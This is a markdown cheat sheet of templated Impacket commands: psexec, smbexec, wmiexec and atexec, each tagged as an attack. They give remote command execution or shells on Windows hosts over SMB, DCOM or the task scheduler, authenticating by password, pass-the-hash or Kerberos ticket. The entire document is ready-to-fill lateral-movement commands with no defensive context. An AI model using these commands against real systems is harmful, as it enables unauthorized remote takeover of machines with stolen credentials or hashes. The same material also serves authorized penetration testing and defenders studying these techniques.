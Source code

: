 # impacket

% impacket, windows, exec

## PSEXEC with username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
impacket-psexec <domain>/<user>:<password>@<ip>
```

## PSEXEC with pass the Hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
impacket-psexec -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## SMBEXEC with username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
impacket-smbexec <domain>/<user>:<password>@<ip>
```

## SMBEXEC with pass the Hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
impacket-smbexec -hashes <hash> <user>@<ip>
```

## SMBEXEC with kerberos
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
impacket-wmiexec <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
impacket-wmiexec -hashes <hash> <user>@<ip>
```

## wmiexec  with pass the ticket
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
export KRB5CCNAME=<ccache_file> ;impacket-wmiexec -k -no-pass <domain><username>@<ip>
```

## atexec - execute command view the task scheduler 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Using \pipe\atsvc via SMB

```
impacket-atexec <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Execute command view the task scheduler (using \pipe\atsvc via SMB)

```
impacket-atexec -hashes <hash> <user>@<ip> "command"
```
